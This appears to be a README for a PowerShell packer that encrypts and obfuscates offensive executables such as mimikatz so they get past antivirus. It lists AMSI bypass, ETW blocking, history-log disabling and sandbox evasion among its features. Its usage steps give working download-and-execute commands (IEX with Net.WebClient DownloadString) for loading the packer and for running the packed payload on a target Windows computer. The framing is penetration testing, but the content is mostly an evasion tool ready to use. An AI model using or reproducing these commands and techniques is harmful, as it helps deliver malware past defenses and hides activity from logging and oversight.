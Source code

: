 ### Invoke-PoSH-PePacker.ps1
--------------------------------------
'Invoke-PoSH-PePacker' allows to pack and encrypt offensive PE files in order to bypass AV solutions such as Windows Defender.  
It generates an obfuscated and encrypted PowerShell script that contains the PE file that you want to pack.

#### FEATURES
  - AES encryption and GZip/Deflate compression (based on 'Xencrypt')
  - Reflective PE injection (based on an updated version of 'Invoke-ReflectivePEInjection')
  - AMSI bypass (pseudo random)
  - Blocking Event Tracing for Windows (ETW)
  - Disabling PowerShell history logging
  - Basic sandbox evasion techniques (optional)
    - stop/exit if the PowerShell script is not run on a domain-joined Windows computer 
    - stop/exit if the PowerShell session is being debugged (detection based on "Test-Path Variable:PSDebugContext")
    - wait for 60 seconds before execution
  
#### USAGE
  - STEP 1. Generate an obfuscated & encrypted PowerShell script that contains your PE file (e.g. mimikatz.exe, havocdemon.exe) stored locally or on a remote web server.
```
[*] First load the packer
    PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Jean-Francois-C/Windows-Penetration-Testing/master/Defense%20evasion%20(examples)/Invoke-PoSH-PePacker/Invoke-PoSH-PePacker.ps1');

[*] Then "pack/obfuscate" a Portable Executable file stored locally (with or without the sandbox checks enabled)
    PS C:\> Invoke-PoSH-PePacker -FilePath C:\path\PE-file.exe -OutFile C:\path\Packed-PE-file.ps1
    --- or ---
    PS C:\> Invoke-PoSH-PePacker -FilePath C:\path\PE-file.exe -OutFile C:\path\Packed-PE-file.ps1 -sandbox

[*] Or download and "pack/obfuscate" a Portable Executable file stored on a remote web server 
    PS C:\> Invoke-PoSH-PePacker -FileUrl https://URL/PE-file.exe -OutFile C:\path\Packed-PE-file.ps1 
    --- or ---
    PS C:\> Invoke-PoSH-PePacker -FileUrl https://URL/PE-file.exe -OutFile C:\path\Packed-PE-file.ps1 -sandbox
```
#### 
  - STEP 2. Download & execute the obfuscated & encrypted PowerShell script (that contains your PE file) on a target Windows computer
```
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://URL/Packed-PE-file.ps1'); Execute-PE
--- or ---
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://URL/Packed-PE-file.ps1'); Execute-PE argument1 argument2 ...

--- or (not recommended) ---
PS C:\> WGET -URI https://URL/Packed-PE-file.ps1 -OutFile C:\temp\Packed-PE-file.ps1
PS C:\> Import-Module C:\temp\Packed-PE-file.ps1
PS C:\> Execute-PE
        or 
PS C:\> Execute-PE argument1 argument2 ...
``` 

#### LICENSE
  - GNU General Public License v3.0
